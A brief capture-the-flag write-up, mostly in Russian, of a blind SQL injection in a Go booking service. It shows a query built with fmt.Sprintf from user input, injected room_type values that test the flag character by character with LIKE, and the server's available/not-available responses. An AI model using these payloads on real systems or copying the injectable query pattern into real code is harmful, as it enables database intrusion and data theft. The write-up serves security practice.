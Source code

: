 # minimal writeup

blind SQL-injection

```go
s.db.Model(&Booking{}).Where(
    fmt.Sprintf("room_type = '%s' AND check_in_date < ? AND check_out_date > ?", req.RoomType), checkOutDate, checkInDate,
).Count(&count)
```

Модифицируем клиент (убираем валидацию), отправляем запросы `./client check ...` с `check_in_date` и `check_out_date` в будущем (чтобы не попасть в флаг по времени).

`--room_type "suite' AND confirmation_number LIKE 'crab{t%' OR created_at=? OR created_at=?);--"`

> Room type **not available** for the selected dates

`--room_type "suite' AND confirmation_number LIKE 'crab{1%' OR created_at=? OR created_at=?);--"`

> Room type **available** for the selected dates

С помощью полученного способа проверки флага посимвольно восстанавливаем его примерно
за 70 запросов на каждый символ. Автоматизируем на любом подручном средстве автоматизации
(или перебираем руками)
